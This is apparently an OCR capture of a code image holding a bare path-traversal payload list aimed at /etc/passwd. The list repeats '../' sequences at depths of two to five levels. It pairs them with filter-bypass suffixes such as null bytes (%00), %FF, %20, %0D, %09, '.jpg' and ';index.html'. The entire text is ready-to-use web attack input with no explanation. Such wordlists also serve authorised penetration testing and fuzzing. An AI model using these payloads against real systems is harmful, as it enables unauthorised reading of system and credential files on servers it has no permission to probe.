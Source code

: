 ```llvm
../../etc/passwd%FF.jpg
../../etc/passwd%FF
../../etc/passwd%20index.html
../../etc/passwd%20.jpg
../../etc/passwd%20
../../etc/passwd%0Dindex.html
../../etc/passwd%0D.jpg
../../etc/passwd%0D
../../etc/passwd%09index.html
../../etc/passwd%09.jpg
../../etc/passwd%09
../../etc/passwd%00index.html
../../etc/passwd%00.jpg
../../etc/passwd%00
../../etc/passwd
../../../etc/passwd;index.html
../../../etc/passwd%FFindex.html
../../../etc/passwd%FF.jpg
../../../etc/passwd%FF
../../../etc/passwd%20index.html
../../../etc/passwd%20.jpg
../../../etc/passwd%20
../../../etc/passwd%0Dindex.html
../../../etc/passwd%0D.jpg
../../../etc/passwd%0D
../../../etc/passwd%09index.html
../../../etc/passwd%09.jpg
../../../etc/passwd%09
../../../etc/passwd%00index.html
../../../etc/passwd%00.jpg
../../../etc/passwd%00
../../../etc/passwd
../../../../etc/passwd;index.html
../../../../etc/passwd%FFindex.html
../../../../etc/passwd%FF.jpg
../../../../etc/passwd%FF
../../../../etc/passwd%20index.html
../../../../etc/passwd%20.jpg
../../../../etc/passwd%20
../../../../etc/passwd%0Dindex.html
../../../../etc/passwd%0D.jpg
../../../../etc/passwd%0D
../../../../etc/passwd%09index.html
../../../../etc/passwd%09.jpg
../../../../etc/passwd%09
../../../../etc/passwd%00index.html
../../../../etc/passwd%00.jpg
../../../../etc/passwd%00
../../../../etc/passwd
../../../../../etc/passwd;index.html
../../../../../etc/passwd%FFindex.html
../../../../../etc/passwd%FF.jpg
../../../../../etc/passwd%FF
../../../../../etc/passwd%20index.html
../../../../../etc/passwd%20.jpg
../../../../../etc/passwd%20
../../../../../etc/passwd%0Dindex.html
../../../../../etc/passwd%0D.jpg
../../../../../etc/passwd%0D
../../../../../etc/passwd%09index.html
../../../../../etc/passwd%09.jpg
../../../../../etc/passwd%09
../../../../../etc/passwd%00index.html
```
